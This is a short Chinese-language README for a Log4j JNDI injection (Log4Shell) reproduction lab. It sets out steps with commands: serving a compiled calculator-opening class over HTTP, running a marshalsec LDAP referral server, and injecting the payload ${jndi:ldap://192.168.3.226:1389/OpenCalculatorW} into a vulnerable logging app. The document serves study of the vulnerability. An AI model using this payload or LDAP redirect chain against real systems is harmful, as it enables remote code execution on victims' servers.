 # log4j JNDI注入漏洞 复现学习

## 复现方式

1. 搭建一[应用服务](./VulnerableServer)，使用存在漏洞的log4j版本记录用户输入
2. 准备[恶意脚本](./AttackerServer/HttpServer)，并为其提供一个http
   1. 此处以打开MacOS和Widnows上的计算器应用为例，编写脚本，并对其编译得到class文件
   2. 为class文件提供http服务
      ```python3 -m http.server 8000```
3. 提供一个LDAP服务，重定向到恶意脚本所在http服务
   1. LDAP服务(https://github.com/mbechler/marshalsec)
   2. 启动```java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer exploit.codebase "http://192.168.3.226:8000/#OpenCalculatorW"```
4. 对应用服务输入脚本，触发漏洞
   1. 对应用服务器输入```${jndi:ldap://192.168.3.226:1389/OpenCalculatorW}```进行攻击
5. 攻击过程流程图
